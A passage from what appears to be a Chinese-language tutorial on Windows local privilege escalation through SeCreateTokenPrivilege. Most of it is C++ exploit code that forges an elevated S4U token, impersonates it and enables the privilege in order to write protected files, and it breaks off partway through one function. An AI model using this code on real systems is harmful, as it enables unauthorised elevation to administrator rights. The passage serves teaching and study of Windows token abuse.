 ```c++
	}

	pElevatedToken = CreateUserToken(hToken);
	if (pElevatedToken == NULL)
	{
		wprintf(L"[-] Failed to create user token.\n");
		return 0;
	}

	if (!DisplayTokenInformation(pElevatedToken))
	{
		wprintf(L"[-] Failed to get S4U token information.\n");
		return 0;
	}

	hThread = GetCurrentThread();

	if (!SetThreadToken(&hThread, pElevatedToken))
	{
		wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
		return 0;
	}
	wprintf(L"\n[*] Successfully impersonated the elevated token.\n");

	if (!ExploitSeCreateTokenPrivilege(sourceFile, destFile))
	{
		wprintf(L"[-] Failed to exploit SeCreateTokenPrivilege.\n");
		return 0;
	}
}
```

然后调用 `EnableTokenPrivilege()` 函数，该函数通过 `AdjustTokenPrivileges()` 函数为当前进程开启 SeCreateTokenPrivilege 特权，如下所示。

```c++
BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
	BOOL status = FALSE;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges;

	// Get the LUID value of the privilege for the local system
	if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
	{
		wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
		return status;
	}

	// Set escalation information
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	// Elevate Process Token Access
	if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
	{
		wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
		return status;
	}
	else
	{
		status = TRUE;
```